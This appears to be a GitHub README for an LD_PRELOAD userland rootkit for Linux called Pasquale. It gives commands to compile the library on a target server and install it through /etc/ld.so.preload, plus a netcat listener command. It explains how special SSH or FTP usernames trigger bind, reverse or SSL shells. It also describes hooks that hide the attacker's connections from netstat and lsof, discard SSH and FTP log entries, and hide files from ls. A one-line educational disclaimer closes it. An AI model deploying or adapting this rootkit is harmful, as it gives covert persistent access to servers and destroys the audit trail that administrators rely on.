 ---

# Pasquale Rootkit

## Overview

Pasquale is a userland rootkit utilizing the `LD_PRELOAD` technique to hook system calls and provide various backdoor functionalities. It demonstrates several concepts spanning C programming, socket programming, openSSL, system calls, and various elements related to Linux. The rootkit targets `syslog` and `vsftpd`, triggering one of three possible backdoors. Any network connections made by the attacker are hidden from `netstat` and `lsof`. The rootkit also hides the attacker from logs that usually monitor SSH and FTP connections. 

## Features

- **Backdoor Access**: Provides three types of backdoors: bind shell, reverse shell, and an SSL-encrypted shell, which can be triggered through both SSH and FTP.
- **Log Manipulation**: Hides specific log entries from `vsftpd.log` and `auth.log`.
- **Process Hiding**: Conceals specific connections from `netstat` and `lsof`.

## Installation

### Prerequisites

Ensure you have OpenSSL installed on your system. 

### Supported Distributions

Pasquale is supported by Debian-based systems, as well as CentOS. 

### Compilation

Compile the rootkit as a shared library on the target system:

```bash
gcc pasquale.c -fPIC -shared -D_GNU_SOURCE -o lib.pack.so.6 -ldl -lssl -lcrypto
```

### Deployment

This rootkit would be installed on a Linux server where an attacker would have root access. The steps below assume you have root access on the target system.

1. **Compile the Library on Target**: Follow the compilation step directly on the target system to create `lib.pack.so.6`.

2. **Configure `LD_PRELOAD`**: Add the library to `/etc/ld.so.preload`.

    ```bash
    echo "/path/to/lib.pack.so.6" > /etc/ld.so.preload
    ```

### Verification

Verify that the library is loaded:

```bash
ldd /bin/ls
```

Check that `lib.pack.so.6` is listed.

## Usage

### Starting a Listener

Start a listener on the attacker's machine:

```bash
nc -lvp 443
```

### Triggering the Backdoor

Use one of the special usernames to trigger the desired backdoor (bind, reverse, or SSL):

```bash
ssh BIND_USER@target
ssh REVERSE_USER@target
ssh OPENSSL_USER@target
```

Alternatively, these backdoors can also be triggered via FTP with the same usernames:

```bash
ftp target
# login with username BIND_USER, REVERSE_USER, or OPENSSL_USER
```

## Functionality Details

### System Call Hooking

- **LD_PRELOAD** LD_PRELOAD is an enviornmental variable (and also a file) that is checked before all other libraries. If set to the compiled rootkit library, all defined system calls in `pasquale.c` will be dynamically linked before the actual system calls. 
- **write Hook**: Intercepts `write` calls to check for specific usernames. Depending on the username, it triggers a bind shell, reverse shell, or SSL-encrypted shell. The ssh and ftp processes both make write calls when a username is submitted. 
- **fopen Hook**: Intercepts `fopen` calls to hide entries from `/var/log/vsftpd.log` and certain network connections from `netstat` and `lsof`.
- **readdir Hook**: Intercepts directory reads to hide the rootkit's presence, including the `ls` command.

### Abuse of syslog and vsftpd

- **Syslog**: The rootkit hooks the `write` syscall to detect specific usernames logged by `syslog`. When detected, it triggers the appropriate backdoor and writes to `/dev/null`, ensuring no logs containing the usernames are written.
- **vsftpd**: The `fopen` hook redirects writes to `/var/log/vsftpd.log` to `/dev/null`, ensuring the log file remains empty.

## Important Notes

- **Educational Purposes**: This rootkit is intended for educational purposes only. Do not use it for malicious activities.

